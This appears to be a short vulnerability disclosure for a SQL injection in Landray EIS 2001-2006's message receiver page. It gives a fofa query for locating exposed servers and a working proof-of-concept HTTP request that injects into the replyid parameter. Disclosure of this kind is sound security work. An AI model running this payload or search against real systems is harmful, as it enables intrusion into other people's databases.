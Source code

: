 
## PRODUCT

landray EIS
## fofa
```
body="/Scripts/jquery.landray.dialog.js"
```
![image](https://github.com/user-attachments/assets/ea29cd4a-d76d-4215-9e32-186b4f644707)


## Vendor of Product

https://www.landray.com.cn/

## VERSION

EIS 2001-2006

## Vulnerability Type

SQL injection

## Description
Vulnerabilities classified as fatal have been found in Landray EIS 2001 through 2006. This vulnerability affects the component API interface file/Message/fi_message_receiver.aspx? replyid parameter of replyid. Manipulation on the replyid parameter causes SQL injection



## POC：
```
GET /Message/fi_message_receiver.aspx?replyid=1%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: Lang=zh-cn; ASP.NET_SessionId=hrqq2u554a1zlurqqbuegun0
Connection: keep-alive
```
![fea5919b954e1f629e312262c0e178d2](https://github.com/user-attachments/assets/7542765c-17d1-4bac-8b5e-507cb816d127)



official website
https://www.landray.com.cn/



